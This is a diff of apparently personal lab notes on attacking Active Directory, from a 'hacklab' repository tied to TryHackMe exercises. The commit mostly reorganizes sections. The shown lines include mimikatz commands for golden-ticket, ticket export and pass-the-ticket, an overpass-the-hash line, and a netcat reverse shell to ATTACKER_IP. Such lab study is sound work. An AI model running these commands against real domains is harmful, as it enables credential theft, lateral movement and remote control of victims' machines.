

Before and after one commit to Bruno-Macedo/hacklab, a Markdown page: 2.1_Active_Directory.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/2.1_Active_Directory.md
+++ b/2.1_Active_Directory.md
@@ -76,11 +71,19 @@ sudo systemctl restart networking.service
   - kerberos::golden /user:[logged_user] /domain:[name_domain] /sid: /krbtgt:[hash_des_Nutzers] /id:
   - msic::cmd ==> access other machine
 
+##### Tickets (need to be deleted)
+- mimikatz ==> access to ticket, not session key
+  - privilege::debug
+  - sekurlsa::tickets /export
+  - inject ticket
+    - kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
+  - klist => check if injection was correct
+
+
 ### Commands
 - Reset password
   - set-ADAccountPassword USER -Reset -NewPassword (Read-Host -AsSecurestring -Prompt '123456') - Verbose
   - Set-ADUser -ChangePasswordAtLogon $true -Identity sophie -Verbose
-
 
 #### Credential Injection
 - runas.exe
@@ -495,18 +556,7 @@ sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH_VAlue /run:".exe command"
    - Get-NetGPO  / Invoke-ShareFinder = shares
 
 
-##### Kerberos
-- TGT: Ticket Granting Ticket ==> request access to services ==> admin credentials
-- TGS: Ticket Granting Service ==> only for service
-
-- mimikatz ==> access to ticket, not session key
-  - privilege::debug
-  - sekurlsa::tickets /export
-  - inject ticket
-    - kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
-  - klist => check if injection was correct
-
-##### Overpass-the-hash / pass-the-key
+### Overpass-the-hash / pass-the-key
 - applied to kerberos
 - we need a key ==> we dont need password
 - privilege::debug
@@ -516,7 +566,7 @@ sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH_VAlue /run:".exe command"
   - sekurlsa::pth /user:Administrator /domain:za.tryhackme.com [/rc4/aes128/aes256]:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
 
 
-##### Abusing Behaviour
+### Abusing Behaviour
 - find writables shares + put file with payload
 ```
 # .vbs
````
Also changed, not shown: other parts of 2.1_Active_Directory.md (+139 -86 lines), 2.3_Services.md (+3 -2 lines), DJvsnDJ.png (added), SharpHoundCheatSheet.jpg (added), 1 other file.
